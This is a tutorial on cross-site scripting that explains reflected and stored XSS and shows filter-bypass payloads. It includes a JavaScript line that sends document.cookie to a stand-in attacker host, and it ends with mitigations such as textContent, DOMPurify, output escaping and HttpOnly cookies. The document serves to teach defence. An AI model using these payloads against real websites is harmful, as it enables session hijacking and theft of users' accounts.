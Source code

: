 # Cross-Site Scripting

## Introduction
Cross-site scripting (XSS) is a common attack that malicious actors use impersonate other users, including you. Each time you visit a website that requires you to log in, the website sends you what's called a cookie. This is simply a long, randomly-generated string of characters that proves who you are. When you log in, the website sends you the cookie, and each time you visit another page, you send that cookie back. If an attacker can steal that cookie from you, they can send it in their own web requests and act as you - the server won't know the difference. Cross-site scripting is when an attacker exploits a vulnerability in the website that allows them to steal your cookies (or other important data, like passwords) and act as you. If this is on a banking website, they can clear your account. If this is on your email, they can reset all your passwords. If you really think about, the consequences can be disastrous! 

In this tutorial, I'm going to teach you how to avoid this kind of attack and ensure cookies are safe.

## Steps of XSS
Before thinking about how to mitigate, or remove, the vulnerability, I believe it's important to understand how it works. Complete coverage of the vulnerability is only possible through thorough understanding of the vulnerability. I will go through the 3 main steps of cross-site scripting, and afterwards show two different examples.

### Find a Reflection Point
A reflection point is a place on a website where user input is reflected. Some common examples are comments, bios, social media and blog posts, notes, messages, or even what you type into the search bar. There are two main types of XSS:

* Stored/persistent XSS
* Reflected XSS

Reflected XSS is when the user input is temporary, and only present when specifically directed to by the attacker. For example, parameters in a malicious URL might be shown on the webpage, such as a search bar. Going to the URL `https://sos.tn.gov/site-search/malicious-input-here` will display `malicious-input-here` on the page (try it!). However, the victim must go to the URL, and they probably aren't going to type in malicious code to execute on themselves. This is why reflected XSS is more difficult, and usually relies on tricking the victim into clicking on a URL from a phishing email or social media post.

![Reflected XSS](xssReflectedURL.png)

Stored XSS has a much higher success rate because if someone goes to a site with stored, malicious input of their own volition, they will receive the payload. For example, if you make a comment on a Facebook post, anyone that sees the Facebook post will see your input. While tricking a victim into going to that webpage will speed things up, it's not necessary. Stored XSS means your user input is stored in some sort of database or file and, whenever a person access that page, your input is retrieved and then displayed. For example, this is a simplistic pastebin site. If you create a public paste, anyone that visits it will then see your malicious input.

![Stored XSS](xssStoredPaste.png)

I think it's also important to note that reflection points don't just have to be visual - you can also have hidden reflection points, especially when inserting user input into HTML elements as classes, names, titles, values, etc.

### Insert JavaScript
Once you have found a reflection point, you need to determine if you can inject JavaScript into the page through that reflection point. This part is often very tricky, as there are various methods (effective and ineffective) of filtering JavaScript. Being able to insert JavaScript that is executed is what allows the attacker to steal information like cookies. There are many different ways of inserting JavaScript into code, and it will probably be necessary to try multiple until one works. 

The most basic method is to insert a `<script>` tag, with something like `alert()` in it. Let's take a very simple webpage that only reflects what's put in the URL. Here is the source code:

```
<?php
    // this url is www.example.com/reflect.php
    echo $_GET["input"];
?>
```

If you went to the URL `https://www.example.com/reflect.php?input=<script>alert()</script>`, then you would see an alert pop up - this means your JavaScript injection was successful! If an alert doesn't pop up, see what happened! You must determine what type of filtering took place. Inspect the page once going to the URL above and see what the page source looks like. If you see `<script>alert()</script>` but no pop up, that means they escaped the less-than `<` and greater-than `>` characters. This means the page sees those characters but doesn't recognize it as HTML. If you see `<scrubbed>alert()</scrubbed>`, that means they automatically replaced the word `script` with the word `scrubbed` everywhere. If you see nothing, that means your particular output was flagged as "malicious" and removed.

*Note - a [recent security update to HTML5](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations) has disabled the execution of any `<script>` tags AFTER the page has loaded, but this does not apply to the method below.*

Some filters are limited and easy to bypass. For example, replacing the word `script` with `scrubbed` is easy to bypass because you can insert JavaScript into the attributes of other HTML elements. Here's an example of another way to insert JavaScript that bypasses this filter: `<img src="x" onerror="alert()">`. Since `/x` is not a valid path for a photo, the element will run the JavaScript contained in the `onerror` attribute - all without the word `script` anywhere!

If your input is ever put directly into a `<script>` tag by the website, it's game over. At that point, filtering out any malicious input would be very difficult and you're likely to miss a weird way of inserting JavaScript.

You can find more examples of inserting JavaScript in the Additional Resources section below.

### Deliver a Payload
Once a reflection point can serve arbitrary JavaScript code, the last step is to craft a payload that will send the victim's cookies to the attacker. This process is called "exfiltration". Any JavaScript code that you have them run will only work on their side (aka, an alert will only show up on their computer, not yours!), so you need to interact with the target to access the flag. This is most often done through HTTP requests. 

An attacker will set up a webserver that logs all traffic flowing to it, including user agents, requested paths, and more. They will then craft a payload that, in JavaScript, transmits the information through one of these avenues, such as in the URL. An example would be `https://attacker.website.com/logging.php?cookie=gdacma25980yn4vm2ci3mhd9er`. Once the user accesses the page, the JavaScript payload is executed, an HTTP request with the cookie is made to the attacker's website, and the cookie is logged and sent to the attacker. 

An example of a JavaScript payload that would accomplish this is:

```
var myImage = new Image(100 200); myImage.src = 'https://attacker.website.com/logging.php?cookie='+escape(document.cookie);
```

The browser sees that it needs to retrieve an image, so it asks the website for one. The webpage being requested will obviously not return an image, but the browser won't know that until it asks. However, by then it is too late - the cookie is already sent.

*Note - the `escape()` function is used so that any special characters in the cookie are escaped and won't break the URL*

## How to Mitigate XSS Attacks
Now on to the most important part of the tutorial - how to make sure that cross-site scripting doesn't affect **your** website. Depending on the needs of your websites, different countermeasures can be taken at different levels of web communication. 

Native JavaScript code is often used on websites and is where reflection points occur. For example, JavaScript code can take in URL parameters and display them on the page. There are 3 main ways of displaying a string on a webpage through the DOM - `textContent`, `innerText`, and `innerHTML`. An example of this is `document.getElementById("page").innerHTML = url_parameters`. `innerHTML` will turn any valid HTML into their respective elements, while the other two options will simply displayed them as a string instead of tags. For this reason, it's recommended that web developers always use `innerText` or `textContent` instead of `innerHTML`. 

If the case arises that valid HTML tags need to be taken from the user and displayed on the page, professional open-source projects like [DOMPurify](https://github.com/cure53/DOMPurify) exist. DOMPurify was written and is constantly updated by cross-site scripting experts to filter out any malicious input. All you need to do is include their `.js` file on your page and run all user input through a single function. This project will remove any malicious user input and return the rest, keeping as much good content as possible. 

Another way to ensure characters essential to cross-site scripting are escaped server-side. The only characters that need to be escaped (so they aren't processed as valid HTML) are the greater-than sign (`>`), the less-than sign (`<`), the single quote (`'`), and the double quote (`"`). There are often built-in functions that do this sort of escaping, such as the `htmlspecialchars()` function in PHP, the `cgi.escape()` function in Python, the `xssFilters.inHTMLData()` function in NodeJS, and more.

Lastly, the most effective way to prevent cookies from being stolen by attackers is to enable the `HttpOnly` attribute on sensitive cookies - this blocks browsers from accessing the site's cookies through JavaScript. Therefore, it doesn't matter how much JavaScript can be run or how bad filters are, the cookies cannot be accessed. Enabling this attribute varies based on the software used to host the website, but can be easily found through a Google search.

## Additional Resources
1. [HTML Attribute Reference](https://www.w3schools.com/tags/ref_attributes.asp)
    - This webpage is a reference guide provided by W3Schools that lists all possible HTML attributes for all possible HTML elements. This is really useful to find attributes that will run JavaScript code. If you search (CTRL + F) for `script`, you'll find dozens of attributes that will run JavaScript in certain situations. A majority of these start with the word `on`, like `onload`, `onerror`, `onfocus`, etc.
2. [XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
    - This webpage is a cheat sheet made by OWASP, a famous website security community. It contains a list of dozens of various techniques (in addition to the two I shared above) used to bypass filters and insert JavaScript into a page. If you're struggling to turn a reflection point into a JavaScript injection point, I would recommend you start browsing this page.
3. [XSS Game](http://xss-game.appspot.com/)
    - This website is a game where you gain experience turning reflection points in JavaScript injection sites with 6 different levels. It gives you a webpage, the source code, and all you have to do is get an alert to show up on the page load to pass. Each level is more difficult, and each requires different techniques to insert JavaScript. 
4. [Cross-Site Scripting Software Attack](https://owasp.org/www-community/attacks/xss/)
    - This page is another tutorial/reference for cross-site scripting. Just like this page, it describes how cross-site scripting works, how to bypass filters, and other useful examples. If I didn't explain a concept in my tutorial clearly enough, I would recommend you go to this site to clarify.
